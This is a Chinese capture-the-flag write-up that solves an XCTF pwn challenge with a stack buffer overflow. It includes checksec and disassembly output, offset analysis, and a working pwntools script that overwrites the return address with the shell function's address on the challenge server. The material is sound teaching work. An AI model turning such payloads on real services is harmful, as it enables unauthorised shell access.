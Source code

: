 ```yaml
---
title: xctf--pwn--反应釜开关控制
updated: 2022-09-14 01:57:20Z
created: 2022-09-06 06:47:13Z
---
```


<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/513ca94d7d611e2b17e9dd4f3daa3617.png" alt="513ca94d7d611e2b17e9dd4f3daa3617.png" width="800" height="326" class="jop-noMdConv">

首先checksec查看保护

```zsh
└─# checksec ad72d90fbd4746ac8ea80041a1f661c2 
[*] '/root/xctf/ad72d90fbd4746ac8ea80041a1f661c2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

查看函数块

```zsh
└─#  objdump -t -j .text ad72d90fbd4746ac8ea80041a1f661c2 

ad72d90fbd4746ac8ea80041a1f661c2:     file format elf64-x86-64

SYMBOL TABLE:
0000000000400500 l    d  .text  0000000000000000              .text
0000000000400530 l     F .text  0000000000000000              deregister_tm_clones
0000000000400570 l     F .text  0000000000000000              register_tm_clones
00000000004005b0 l     F .text  0000000000000000              __do_global_dtors_aux
00000000004005d0 l     F .text  0000000000000000              frame_dummy
0000000000400870 g     F .text  0000000000000002              __libc_csu_fini
0000000000400800 g     F .text  0000000000000065              __libc_csu_init
0000000000400500 g     F .text  000000000000002a              _start
00000000004006b0 g     F .text  00000000000000a9              easy
0000000000400759 g     F .text  0000000000000099              main
0000000000400607 g     F .text  00000000000000a9              normal
00000000004005f6 g     F .text  0000000000000011              shell
```

**使用IDA对elf进行分析**

首先是main函数：

![0eb5670a12e1c2733c70eb9b5a164e8e.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/0eb5670a12e1c2733c70eb9b5a164e8e.png)

接下来是easy函数：

![da3dfb7e5b09ed18bd65af38ea6b163e.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/da3dfb7e5b09ed18bd65af38ea6b163e.png)

接下来是normal函数：

![df256bc5779d10128221d6ccbc563f3c.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/df256bc5779d10128221d6ccbc563f3c.png)

最后是shell函数，执行该函数可以获得一个shell

![cf93b03e8194163d13c97c8888fc28f6.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/cf93b03e8194163d13c97c8888fc28f6.png)

接下来进行分析

按照题目要求是从V5变量溢出至easy函数，再V2变量溢出至normal函数，最后再溢出至shell函数

但是由于该elf文件并未开启PIE保护（地址随机化），可以直接对main函数中的V5变量进行溢出至shell函数

可见分析中V5变量的偏移地址为 \[bp-200H\]，即为十进制的512,故而v5变量距栈底距离长度为512，还要加上8个长度以覆盖段基地址（64位为8个字节，32位为4个）

再分析查看shel函数的起始地址，可见为0X4005f6

```zsh
gdb-peda$ disass shell
Dump of assembler code for function shell:
   0x00000000004005f6 <+0>:     push   rbp
   0x00000000004005f7 <+1>:     mov    rbp,rsp
   0x00000000004005fa <+4>:     mov    edi,0x400888
   0x00000000004005ff <+9>:     call   0x4004b0 <system@plt>
   0x0000000000400604 <+14>:    nop
   0x0000000000400605 <+15>:    pop    rbp
   0x0000000000400606 <+16>:    ret    
End of assembler dump.
```

所以 padyload为`bytes('a',encoding='utf8')*520+shell_address`

exp如下：

```python
from pwn import *

key = p64(0x4005f6)

conn = remote('61.147.171.105',63873)

conn.recvuntil('>')

payload = bytes('a',encoding='utf8')*520+key

conn.sendline(payload)

conn.interactive()
```

运行结果如下，成功获取flag：

![10a593e92180a0f3f4e3a20d486de6ff.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/10a593e92180a0f3f4e3a20d486de6ff.png)